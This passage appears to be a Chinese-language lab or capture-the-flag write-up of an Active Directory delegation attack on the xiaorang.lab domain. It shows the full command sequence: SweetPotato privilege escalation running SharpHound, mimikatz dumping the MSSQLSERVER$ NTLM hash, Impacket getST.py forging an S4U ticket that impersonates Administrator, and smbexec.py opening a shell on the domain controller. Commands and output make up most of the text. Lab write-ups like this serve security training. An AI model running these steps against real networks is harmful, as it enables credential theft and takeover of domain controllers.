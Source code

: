 ```powershell  
                      连接名:      以太网  
                      启用 DHCP:   是  
                      DHCP 服务器: 172.22.255.253  
                      IP 地址  
                        [01]: 172.22.2.16  
                        [02]: fe80::f40c:c014:4749:a945  
Hyper-V 要求:     已检测到虚拟机监控程序。将不显示 Hyper-V 所需的功能。  
```  
在域中`xiaorang.lab`，并且是`MSSQLSERVER`的机器  
这里查询是否配置了委约派  
```  
C:\Users\Public\SweetPotato-new.exe -a &#34;C:\Users\huahua\Desktop\SharpHound.exe -c all --outputdirectory  C:\Users\huahua\Desktop&#34;  
```  
利用`BloodHound`进行分析  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504202054064.png)
这里打委约派攻击，  
上传`mimikatz`  
```  
privilege::debug  
sekurlsa::logonpasswords  
  
Authentication Id : 0 ; 22979 (00000000:000059c3)  
Session           : UndefinedLogonType from 0  
User Name         : (null)  
Domain            : (null)  
Logon Server      : (null)  
Logon Time        : 2025/4/20 14:13:18  
SID               :  
        msv :  
         [00000003] Primary  
         * Username : MSSQLSERVER$  
         * Domain   : XIAORANG  
         * NTLM     : 3cc99e5b42d8fbd35f3b3883898bc14c  
         * SHA1     : bde131b5b522f3d9441a5d321694ea692729dfb4  
        tspkg :  
        wdigest :  
        kerberos :  
        ssp :  
        credman :  
  
```  
得到`MSSQLSERVER$`的`NTLM Hash 3cc99e5b42d8fbd35f3b3883898bc14c`  
```  
$ python3 getST.py -dc-ip 172.22.2.3 xiaorang.lab/MSSQLSERVER$ -hashes :3cc99e5b42d8fbd35f3b3883898bc14c -spn CIFS/DC.xiaorang.lab -impersonate Administrator  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies  
  
[-] CCache file is not found. Skipping...  
[*] Getting TGT for user  
[*] Impersonating Administrator  
[*] Requesting S4U2self  
[*] Requesting S4U2Proxy  
[*] Saving ticket in Administrator@CIFS_DC.xiaorang.lab@XIAORANG.LAB.ccache  
```  
导入票据  
`export KRB5CCNAME=Administrator@CIFS_DC.xiaorang.lab@XIAORANG.LAB.ccache`  
在`/etc/hosts`添加域  
`172.22.2.3 DC.xiaorang.lab`  
```bash  
$ python3 smbexec.py -no-pass -k DC.xiaorang.lab  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies  
[!] Launching semi-interactive shell - Careful what you execute  
C:\Windows\system32&gt;whoami  
```